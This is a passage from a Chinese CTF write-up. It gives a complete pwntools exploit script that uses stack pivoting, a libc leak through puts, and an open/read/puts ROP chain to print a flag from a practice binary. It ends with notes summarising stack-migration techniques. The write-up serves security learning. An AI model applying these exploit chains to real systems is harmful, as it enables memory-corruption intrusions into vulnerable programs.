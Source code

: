 
### EXP
```python
from pwn import *
r=process('./alittle-up')
elf=ELF('./alittle-up')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level='debug'
bss=0x601000+0x400
rdi=0x0000000000400833
leave=0x4007B1
ret=0x4007CC
rsi=0x0000000000400831
r.recv()
pay='a'*0x100+p64(bss)+p64(leave)
r.send(pay)
pay1='a'*0x100+p64(bss+0x100)+p64(leave)
r.send(pay1)
pay2=p64(bss+0x110)+p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(0x400790)
r.send(pay2)
leak=u64(r.recv(6)+'\x00'*2)
base=leak-libc.sym['puts']
print(hex(base))
pay3='a'*0x100+p64(bss+0x120)+p64(leave)
r.send(pay3)
pay5=p64(bss+0x130)+p64(rdi)+p64(0)+p64(rsi)+p64(0x601200)+p64(0x40)+p64(base+libc.sym['read'])+p64(0x400790)
r.send(pay5)
r.send("flag")
gdb.attach(r)
pay6='a'*0x100+p64(bss+0x300)+p64(leave)
#gdb.attach(r)
r.send(pay6)
pay1='a'*0x100+p64(bss+0x400)+p64(leave)
r.send(pay1)


#gdb.attach(r)
pay8=p64(0)+p64(rdi)+p64(0x2)+p64(rsi)+p64(0x601200)+p64(0)+p64(base+libc.sym['syscall'])
pay8+=p64(rdi)+p64(3)+p64(rsi)+p64(0x601200)+p64(0x100)+p64(base+libc.sym['read'])
pay8+=p64(rdi)+p64(0x601200)+p64(base+libc.sym['puts'])+p64(0x400790)
r.send(pay8)
r.interactive()
```
## 总结
栈迁移基本上都是利用覆盖返回地址来实现控制eip
核心上还是leave_ret->控制esp->控制eip
常用的思路是布局+(canary)+ebp+leaveret的形式

+ leaveret可以替换为read，相应的就要修改ebp来控制读入位置，实现布局空间扩充
+ 布局里也可以加入read等函数，实现循环输入
+ shellcode可执行就考虑jmp esp + sub esp 0x??/jmp esp 的手法
+ read式的栈迁移，能用一条栈溢出来控制读入位置和执行位置，按特殊结构布置

有时候第一次read会用来泄露金丝雀和栈地址（以获取输入点的地址），第二次就执行leave_ret跳转利用puts函数泄露libc同时布局第三次输入，第三次直接利用栈溢出的方式one_gadget（总共需要程序提供2次输入）
也有时候会因为范围过小，第一次read会用来泄露金丝雀和栈地址（以获取输入点的地址），第二次返回导向read读入布局同时返回导向read，第三次即到低位继续补充布局在最后ret一次性执行布局（两次输入布局加启用）（总共需要程序提供1次输入）
当然具体输入情况还是要看题目，目前做的题还不够多，会慢慢补充修改